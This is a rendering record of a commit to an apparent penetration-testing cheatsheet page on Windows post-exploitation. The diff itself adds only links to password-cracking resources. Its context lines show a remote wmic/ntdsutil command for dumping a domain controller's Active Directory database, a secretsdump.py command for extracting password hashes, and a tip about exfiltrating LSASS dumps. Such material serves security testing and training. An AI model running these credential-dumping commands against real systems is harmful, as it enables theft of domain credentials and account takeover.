

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Post_Exploitation.md, in a window 1280 px wide and 900 px high, scrolled down 623 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update Post_Exploitation.md

````diff
--- a/docs/Windows/Post_Exploitation.md
+++ b/docs/Windows/Post_Exploitation.md
@@ -28,6 +28,10 @@ wmic /node:dc01.domain.com process call create "cmd.exe /c ntdsutil \"ac in ntds
 # Then copy to kali and use secretsdump
 secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL -pwd-last-set -user-status -history -outputfile output
 ```
+
+#### Next steps
+* [Password cracking](../Password_Cracking/Hashcat_general_cheatsheet.html)
+* [Cleartext password correlation and analysis](https://github.com/trojand/Script_Yard/blob/main/ntds_hashcat_correlator.py)
 
 ### Dumping LSASS
 * Try to archive and compress before exiltrating.
````
